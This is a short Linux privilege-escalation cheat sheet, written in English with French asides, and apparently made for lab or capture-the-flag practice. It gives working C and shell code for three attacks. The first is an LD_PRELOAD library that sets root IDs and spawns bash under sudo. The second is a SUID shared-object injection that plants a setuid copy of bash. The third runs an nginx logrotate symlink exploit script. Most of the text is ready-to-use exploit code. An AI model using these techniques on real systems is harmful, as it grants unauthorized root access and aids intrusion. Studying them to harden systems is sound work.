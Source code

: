### LD_PRELOAD : 
1. Open a text editor and type:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
2. Save the file as x.c
3. In command prompt type:
```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### SUID/SGID SHARED OBJECTS INJECTION
( On cherche les SUID qu'il manque pour les recreer )
```bash
└─$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
From the output, notice that a .so file is missing from a writable directory.
***.so is compiled .c***
##### Output example : 

open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

Donc, on va recreer le SUID car on a remarqué qu'on pouvait écrire dans /home/user/  
```bash
nano /home/user/.config/libcalc.c  
```
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
on compile et on execute: 
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### SUID SYMLINK
```bash
dpkg -l | grep nginx
```
From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3  
For this exploit, it is required that the user be www-data  
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log  
At this stage, the system waits for logrotate to execute (THIS CAN BE LONG)  
